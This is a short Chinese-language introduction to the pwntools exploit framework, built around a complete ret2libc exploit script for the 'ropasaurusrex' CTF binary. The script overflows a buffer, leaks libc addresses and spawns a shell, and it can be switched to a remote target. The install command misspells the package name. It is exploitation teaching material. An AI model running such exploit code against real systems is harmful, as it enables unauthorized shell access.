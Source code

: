 ### pwntools

[pwntools](https://github.com/Gallopsled/pwntools)  由rapid设计，旨在让使用者简单快速的编写exploit，集成了很多工具，例如shellcode生成、ROP链生成等。可以方便的在远程exp和本地exp的转换，测试成功后只需要简单的修改一条语句就可以马上进行远程攻击。

**安装**

```
pip install pwntool   # 安装 pwntools
```

**完整EXP示例**

```
#!/usr/bin/env python
from pwn import *
#context(arch='i386', os='linux', endian='little', log_level='debug')
#context.log_level = 'debug'         # 调试状态时可以回显一些调试信息
elf = ELF('./ropasaurusrex')
libc = elf.libc
#libc = ELF('libc.so.6')             # 实际攻击时换成对方提供的libc.so
vulfunc = 0x080483f4
write_plt = elf.plt['write']
write_got = elf.got['write']
print('write_plt={}'.format(hex(write_plt)))
print('write_got={}'.format(hex(write_got)))

p = process(elf.path)                # 本地测试
# p = remote('127.0.0.1',10001)      # 远程攻击
print('[+] PID: {}'.format(proc.pidof(p)))
# pause()                            # 调试需要时可以pause()，比如做gdb附加操作
p.recvuntil('> ')

payload = b'A' * 0x8c
payload += p32(write_plt)
payload += p32(vulfunc)
payload += p32(1)
payload += p32(write_got)
payload += p32(4)
p.send(payload)

write_addr = u32(p.recv(4))
libc_base = write_addr - libc.sym['write']
system_addr = libc_base + libc.sym['system']
exit_addr = libc_base + libc.sym['exit']
binsh_addr = libc_base + next(libc.search(b'/bin/sh\x00'))

payload = b'A' * 0x8c
payload += p32(system_addr)
payload += p32(exit_addr)    # or p32(0xdeadbeef)
payload += p32(binsh_addr)
p.send(payload)

p.interactive()
```
